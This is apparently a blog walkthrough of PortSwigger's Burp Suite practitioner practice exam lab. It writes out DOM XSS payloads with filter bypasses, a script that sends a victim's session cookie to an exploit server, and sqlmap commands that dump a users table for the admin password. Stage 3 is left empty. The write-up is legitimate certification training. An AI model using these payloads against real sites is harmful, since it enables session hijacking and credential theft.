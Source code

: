 ```yaml
---
title: BurpSuite Certified Practitioner Practice Exam
author: H0j3n
date: 2021-11-11 00:00:00
categories: [Webs]
tags: [Webs]
render_with_liquid: false
---
```


### Introduction

PortSwigger has introduced the **Burp Suite Certified Practitioner** accreditation this year. It is a **three-hour** exam and by passing one you'll be able to demonstrate the ability to:

- Detect and exploit common web vulnerabilities.
- Display knowledge of fundamental web technologies
- Adapt attacks to evade common defenses.

The Burp Suite Certified Practitioner exam costs **$99** and you will need to have an **active subscription** to Burp Suite Professional. You can get certified by using only this 3 steps.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/burp_step_certs.PNG)

Also, if you pass the exam before 15 Dec they will **refund** your $99!

### Burp Suite Certified Practitioner Practice Exam

I will not go further into the explanation of the practice exam as you can read more in [here](https://portswigger.net/web-security/certification/practice-exam) . But there are three (3) stages that we need to complete:

- **Stage 1**: Access any user account.
- **Stage 2**: Use your user account to access the admin interface at **/admin**, perhaps by elevating your privileges or compromising the administrator account.
- **Stage 3**: Use the admin interface to read the contents of **/home/carlos/secret** from the server's filesystem, and submit it using **"submit solution"**.

Before we go through the practice exam, there are few things to take notes.

~~~
-> All the parameters found in this walkthrough might change and will not be the same as yours.
~~~

#### Walkthrough 1/3

When we open the challenge, we can see there is a search function. You can try with a simple payload to check different vulnerabilities such as `single quote (')`, XSS payload or etc. When we try put for example `test123` and view the Burp HTTP history, we can see also `searchResults.js` been requested.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/burp_found_js.png)

From here, we can see inside the javascript there is `eval` function been used.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/burp_found_eval.png)

Thanks to [@r00tpgp](https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html) blog, I learn something new. We can use this Chrome extension to easily discover and test inputs passed into sinks that could lead to **DOM XSS vulnerabilities**.

- [Untrusted Types For DevTools](https://chrome.google.com/webstore/detail/untrusted-types-for-devto/bpeblffgmddnafmnmdjohcmkbeifdlnb?hl=en)

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/chrome_extension_untrusted.PNG)

When we search something again, we could see this in our **console**.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/console_js.png)

Here are payloads that will works:

~~~js
"-alert(1)-"
\\"-alert(1)}//
"-alert(1)}//
~~~

Now, let's create a payload to alert cookies.

~~~js
"-alert(document.cookie)-"
~~~

We notice that it will get blocked.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/payload_blocked.png)

Using global variables, we can bypass it.

~~~js
"-alert(window["document"]["cookie"])-"
"-window["alert"](window["document"]["cookie"])-"
"-self["alert"](self["document"]["cookie"])-"
~~~

Let's create another payload to test before send to our exploit server. But, this will also get blocked.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>.web-security-academy.net/?"+window["document"]["cookie"])-"
~~~

By replacing `.` with `%2e` we are able to bypass it.

~~~js
"-(window["document"]["location"]="https://<CHANGE_HERE>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"
~~~

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/cyberchef_urlencode_1.png)

We can see our **session key** in log.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/session_log.png)

When we try to use the first payload **(Before URL Encode)**, it doesn't work. After we use the second payload **(After URL Encode)**, it seems to work now. You can use [CyberChef](https://gchq.github.io/CyberChef/) as it easy to use.

~~~js
# Before URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find="-(window["document"]["location"]="https://<CHANGE_HERE>>%2eweb-security-academy%2enet/?"+window["document"]["cookie"])-"';
</script>

# After URL Encode
<script>
location='https://<CHANGE_HERE>.web-security-academy.net/?find=%22%2D%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2F<CHANGE_HERE>%252eweb%2Dsecurity%2Dacademy%252enet%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29%2D%22';
</script>
~~~

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/cyberchef_urlencode_2.png)

Nice! We got the session cookie **(Carlos)** in our log.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/session_log_2.png)

Change the session cookie and we will get login as **Carlos**!

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/carlos_login.png)


#### Walkthrough 2/3

There is new features `Advanced Search` that we could access using **Carlos** account.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/advanced_search.png)

By inserting `single quote (')` on the second parameter it will give us SQL Error **(PostgreSQL)**.

~~~bash
https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by='&writer=
~~~

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/sql_error.png)

Since we know the parameter that vulnerable to **SQLi**, we can now use **SQLMap**.

~~~bash
(1)
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --batch

(2) - Get Databases
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" --dbs --batch

(3) - Get Tables
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public --tables --batch

(4) - Dump Specific Table
python sqlmap.py -u "https://<CHANGE_HERE>.web-security-academy.net/advancedsearch?find=test&organize_by=*&writer=" --cookie="_lab=<CHANGE_HERE>;session=<CHANGE_HERE>" -D public -T users --dump --batch
~~~

We will then be able to dump the `users` tables and get the `administrator` password!

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/sqlmap_output.png)

Login as `administrator` and delete **Carlos** account to complete the second (2) stage.

![](https://raw.githubusercontent.com/H0j3n/H0j3n.github.io/master/assets/img/uploads/1_burp/deleted_carlos.png)

If you want to use **SQLMap** in Windows, make sure you have **Python2/Python3** and download the `zip` file from [here](https://sqlmap.org/)

#### Walkthrough 3/3

### Conclusion

### References

- https://www.r00tpgp.com/2021/08/burp-suite-certified-practitioner-exam.html
- https://techblog.mediaservice.net/2017/05/reliable-discovery-and-exploitation-of-java-deserialization-vulnerabilities/
- https://www.secjuice.com/bypass-xss-filters-using-javascript-global-variables/
